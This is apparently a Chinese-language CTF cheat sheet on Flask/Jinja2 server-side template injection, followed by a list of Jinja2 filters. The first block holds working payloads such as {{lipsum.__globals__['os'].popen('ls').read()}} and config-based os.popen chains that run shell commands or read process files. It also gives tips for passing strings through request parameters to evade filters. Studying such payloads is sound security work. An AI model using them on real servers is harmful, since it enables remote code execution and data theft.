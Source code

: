 ```
__builtins__         内建名称空间，内建名称空间有许多名字到对象之间映射，而这些名字其实就是内建函数的名称，对象就是这些内建函数本身。即里面有很多常用的函数。__builtins__与__builtin__的区别就不放了，百度都有。
__import__           动态加载类和函数，也就是导入模块，经常用于导入os模块，__import__('os').popen('ls').read()]
__str__()            返回描写这个对象的字符串，可以理解成就是打印出来。
url_for              flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
get_flashed_messages flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
lipsum               flask的一个方法，可以用于得到__builtins__，而且lipsum.__globals__含有os模块：{{lipsum.__globals__['os'].popen('ls').read()}}
current_app          应用上下文，一个全局变量。

request              可以用于获取字符串来绕过，包括下面这些，引用一下羽师傅的。此外，同样可以获取open函数:request.__init__.__globals__['__builtins__'].open('/proc\self\fd/3').read()
request.args.x1      get传参
request.values.x1    所有参数
request.cookies      cookies参数
request.headers      请求头参数
request.form.x1      post传参 (Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data         post传参 (Content-Type:a/b)
request.json         post传json  (Content-Type: application/json)
config               当前application的所有配置。此外，也可以这样{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
g                    {{g}}得到<flask.g of 'flask_ssti'>
```

### 常用的过滤器，从别的师傅的博客里摘录的：

```
int()：将值转换为int类型；

float()：将值转换为float类型；

lower()：将字符串转换为小写；

upper()：将字符串转换为大写；

title()：把值中的每个单词的首字母都转成大写；

capitalize()：把变量值的首字母转成大写，其余字母转小写；

trim()：截取字符串前面和后面的空白字符；

wordcount()：计算一个长字符串中单词的个数；

reverse()：字符串反转；

replace(value,old,new)： 替换将old替换为new的字符串；

truncate(value,length=255,killwords=False)：截取length长度的字符串；

striptags()：删除字符串中所有的HTML标签，如果出现多个空格，将替换成一个空格；

escape()或e：转义字符，会将<、>等符号转义成HTML中的符号。显例：content|escape或content|e。

safe()： 禁用HTML转义，如果开启了全局转义，那么safe过滤器会将变量关掉转义。示例： {{'<em>hello</em>'|safe}}；

list()：将变量列成列表；

string()：将变量转换成字符串；

join()：将一个序列中的参数值拼接成字符串。示例看上面payload；

```